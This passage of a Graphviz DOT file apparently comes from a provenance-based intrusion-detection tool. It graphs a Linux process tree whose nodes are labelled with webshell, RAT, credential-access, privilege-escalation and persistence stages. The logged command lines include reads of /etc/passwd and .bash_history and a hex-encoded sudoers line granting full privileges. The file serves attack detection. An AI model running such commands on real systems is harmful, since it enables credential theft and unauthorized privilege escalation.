table182 [label = "{<head>processname: cat | pid: 1382 | cmdline: cat 737061646509414c4c3d28414c4c3a414c4c2920414c4c | starttime: 1618986666261000000 | enddtime: 1618986666261000000 | label: PT9 Execute any command.(webshell) timestamp: 1652945086106 | label: PT8 The uploaded file is read.(webshell) timestamp: 1652945086106 | label: PT10 Shell command.(rat) timestamp: 1618986666261000000 | label: PS1 Persistent Stronghold timestamp: 1618986166123000000}", color = red];
table183 [label = "{<head>processname: cat | pid: 1383 | cmdline: cat /etc/passwd | starttime: 1618986693208000000 | enddtime: 1618986693208000000 | label: PS3 Credential Access (CA) timestamp: 1618985500876000000 | label: PT9 Execute any command.(webshell) timestamp: 1652945086106 | label: PT8 The uploaded file is read.(webshell) timestamp: 1652945086106 | label: PT10 Shell command.(rat) timestamp: 1618986693208000000 | label: PS2 Privilege Escalation timestamp: 1618986648760000000 | label: PS1 Persistent Stronghold timestamp: 1618986166123000000 | label: PT2 The process read sensitive information. timestamp: 1618985500876000000}", color = red];
table184 [label = "{<head>processname: cat | pid: 1384 | cmdline: cat .bash_history | starttime: 1618986697596000000 | enddtime: 1618986697596000000 | label: PS4 Information Collection (IC) timestamp: 1618986697596000000 | label: PS3 Credential Access (CA) timestamp: 1618985500876000000 | label: PT9 Execute any command.(webshell) timestamp: 1652945086106 | label: PT8 The uploaded file is read.(webshell) timestamp: 1652945086106 | label: PT10 Shell command.(rat) timestamp: 1618986697596000000 | label: PS2 Privilege Escalation timestamp: 1618986648760000000 | label: PS1 Persistent Stronghold timestamp: 1618986166123000000}", color = red];
table186 [label = "{<head>processname: ls | pid: 1385 | cmdline: ls | starttime: 1618986700881000000 | enddtime: 1618986700881000000 | label: PS4 Information Collection (IC) timestamp: 1618986697596000000 | label: PS3 Credential Access (CA) timestamp: 1618985500876000000 | label: PT9 Execute any command.(webshell) timestamp: 1652945086106 | label: PT8 The uploaded file is read.(webshell) timestamp: 1652945086106 | label: PT10 Shell command.(rat) timestamp: 1618986700881000000 | label: PS2 Privilege Escalation timestamp: 1618986648760000000 | label: PS1 Persistent Stronghold timestamp: 1618986166123000000}", color = red];
table187 [label = "{<head>processname: touch | pid: 1386 | cmdline: touch secret | starttime: 1618986703085000000 | enddtime: 1618986703089000000 | label: PS4 Information Collection (IC) timestamp: 1618986697596000000 | label: PS3 Credential Access (CA) timestamp: 1618985500876000000 | label: PT9 Execute any command.(webshell) timestamp: 1652945086106 | label: PT8 The uploaded file is read.(webshell) timestamp: 1652945086106 | label: PT10 Shell command.(rat) timestamp: 1618986703085000000 | label: PS2 Privilege Escalation timestamp: 1618986648760000000 | label: PS1 Persistent Stronghold timestamp: 1618986166123000000}", color = red];
table196 [label = "{<head>processname: xauth | pid: 1412 | cmdline: /usr/bin/xauth -q - | starttime: 1618986719400000000 | enddtime: 1618986719524000000 | label: PT10 Shell command.(rat) timestamp: 1618986719400000000}", color = red];
table203 [label = "{<head>processname: ls | pid: 1438 | cmdline: ls /etc/bash_completion.d | starttime: 1618986719652000000 | enddtime: 1618986719656000000 | label: PT10 Shell command.(rat) timestamp: 1618986719652000000}", color = red];
table205 [label = "{<head>processname: lesspipe | pid: 1440 | cmdline: /bin/sh /usr/bin/lesspipe | starttime: 1618986719828000000 | enddtime: 1618986719864000000 | label: PS4 Information Collection (IC) timestamp: 1618985500948000000 | label: PT10 Shell command.(rat) timestamp: 1618986719828000000}", color = red];
table210 [label = "{<head>processname: dircolors | pid: 1445 | cmdline: dircolors -b | starttime: 1618986719868000000 | enddtime: 1618986719872000000 | label: PS4 Information Collection (IC) timestamp: 1618985500948000000 | label: PT10 Shell command.(rat) timestamp: 1618986719868000000}", color = red];
table212 [label = "{<head>processname: ls | pid: 1447 | cmdline: ls /etc/bash_completion.d | starttime: 1618986719884000000 | enddtime: 1618986719888000000 | label: PS4 Information Collection (IC) timestamp: 1618985500948000000 | label: PT10 Shell command.(rat) timestamp: 1618986719884000000}", color = red];
table67 [label = "{<head>processname: basename | pid: 1287 | cmdline: basename /usr/bin/lesspipe | starttime: 1618985500948000000 | enddtime: 1618985500952000000 | label: PS4 Information Collection (IC) timestamp: 1618985500948000000}", color = red];
table69 [label = "{<head>processname: lesspipe | pid: 1288 | cmdline: /bin/sh /usr/bin/lesspipe | starttime: 1618985500952000000 | enddtime: 1618985500960000000 | label: PS4 Information Collection (IC) timestamp: 1618985500948000000}", color = red];
table206 [label = "{<head>processname: basename | pid: 1441 | cmdline: basename /usr/bin/lesspipe | starttime: 1618986719832000000 | enddtime: 1618986719852000000 | label: PS4 Information Collection (IC) timestamp: 1618985500948000000}", color = red];
table207 [label = "{<head>processname: lesspipe | pid: 1442 | cmdline: /bin/sh /usr/bin/lesspipe | starttime: 1618986719852000000 | enddtime: 1618986719864000000 | label: PS4 Information Collection (IC) timestamp: 1618985500948000000}", color = red];
table70 [label = "{<head>processname: dirname | pid: 1290 | cmdline: dirname /usr/bin/lesspipe | starttime: 1618985500956000000 | enddtime: 1618985500960000000 | label: PS4 Information Collection (IC) timestamp: 1618985500948000000}", color = red];
table208 [label = "{<head>processname: dirname | pid: 1443 | cmdline: dirname /usr/bin/lesspipe | starttime: 1618986719852000000 | enddtime: 1618986719864000000 | label: PS4 Information Collection (IC) timestamp: 1618985500948000000}", color = red];
table135 -> table134: head;
table135 -> table136: head;
table135 -> table138: head;
table135 -> table144: head;
table135 -> table145: head;
table135 -> table148: head;
table0 -> table2: head;
table0 -> table20: head;
table0 -> table97: head;
table0 -> table135: head;
table0 -> table164: head;
table0 -> table191: head;
table0 -> table198: head;
table0 -> table241: head;
table241 -> table242: head;
table11 -> table12: head;
table2 -> table11: head;
table134 -> table158: head;
table136 -> table154: head;
table138 -> table161: head;
table163 -> table165: head;
table164 -> table163: head;
table193 -> table194: head;
table191 -> table193: head;
table12 -> table13: head;
table12 -> table47: head;
table12 -> table64: head;
table12 -> table72: head;
table12 -> table75: head;
table12 -> table84: head;
table12 -> table86: head;
table12 -> table87: head;
table12 -> table100: head;
table12 -> table110: head;
table12 -> table112: head;
table12 -> table113: head;
table12 -> table114: head;
table12 -> table116: head;
table12 -> table117: head;
table12 -> table118: head;
table12 -> table119: head;
table12 -> table121: head;
table12 -> table122: head;
table12 -> table124: head;
table12 -> table125: head;
table12 -> table127: head;
table12 -> table128: head;
table12 -> table130: head;
table12 -> table131: head;
table12 -> table133: head;
table79 -> table80: head;
table20 -> table79: head;
table98 -> table99: head;
table97 -> table98: head;
table158 -> table159: head;
table154 -> table155: head;
table161 -> table162: head;
table146 -> table147: head;
table145 -> table146: head;
table149 -> table150: head;
table148 -> table149: head;
table165 -> table167: head;
table165 -> table169: head;
table165 -> table172: head;
table165 -> table171: head;
table165 -> table240: head;
table194 -> table195: head;
table194 -> table202: head;
table194 -> table204: head;
table194 -> table209: head;
table194 -> table211: head;
table194 -> table213: head;
table194 -> table214: head;
table194 -> table215: head;
table194 -> table217: head;
table194 -> table219: head;
table194 -> table221: head;
table194 -> table223: head;
table194 -> table225: head;
table194 -> table227: head;
table194 -> table228: head;
table194 -> table230: head;
table194 -> table232: head;
table194 -> table234: head;
table194 -> table236: head;
table194 -> table237: head;
table194 -> table239: head;
table200 -> table201: head;
table198 -> table200: head;
table13 -> table18: head;
table47 -> table48: head;
table64 -> table65: head;
table72 -> table73: head;
table75 -> table76: head;
table159 -> table160: head;
table155 -> table156: head;
table150 -> table151: head;
table172 -> table177: head;
table172 -> table179: head;
table172 -> table180: head;
table172 -> table182: head;
table172 -> table183: head;
table172 -> table184: head;
table172 -> table186: head;
table172 -> table187: head;
table195 -> table196: head;
table202 -> table203: head;
table204 -> table205: head;
table209 -> table210: head;
table211 -> table212: head;
table65 -> table67: head;
table65 -> table69: head;
table205 -> table206: head;
table205 -> table207: head;
table69 -> table70: head;
table207 -> table208: head;
}
